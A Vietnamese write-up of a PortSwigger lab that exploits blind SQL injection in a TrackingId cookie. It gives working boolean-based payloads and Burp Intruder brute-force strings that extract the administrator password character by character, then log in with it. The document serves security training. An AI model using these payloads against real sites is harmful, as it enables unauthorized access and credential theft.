





# Write-up: Blind SQL injection with conditional responses

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi để lấy mật khẩu của tài khoản `administrator` bằng cách kiểm tra phản hồi của web trong `Cookie TrackingId`.

### Mục tiêu
- Tìm mật khẩu của tài khoản `administrator`
- Đăng nhập thành công với vai trò `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=1--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện
    
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=0--
    ```
    - **Kết quả**: `Welcome back!` không xuất hiện
    

    - **Kết quả**: xác nhận lỗ hổng Blind SQLi.

- Xác định sự tồn tại của bảng users và
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT 'm' FROM users LIMIT 1)='m'-- 
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại bảng users
        

-  Xác định sự tồn tại của người dùng tên `administrator`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại `username` = `administrator`

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder, xử dụng kỹ thuật bruteforce xác định độ dài mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')=§1§--
    ```
    - set payload như ảnh sau và được kết quả
      
    Xác nhận mật khẩu có độ dài là 20 kí tự

- Tạo payload và gửi qua Burp Intruder, xử dụn kĩ thuật bruteforce để xác định mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
    ```
    - payload `§1§` set giống với pyaload xác định độ dài mật khẩu
    - payload `§a§` set như ảnh dưới và ta được kết quả
    
    - **Kết quả**: xác định được `password`:`0gd912zq4tck66kjrddm`
  
3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`0gd912zq4tck66kjrddm`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi có điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.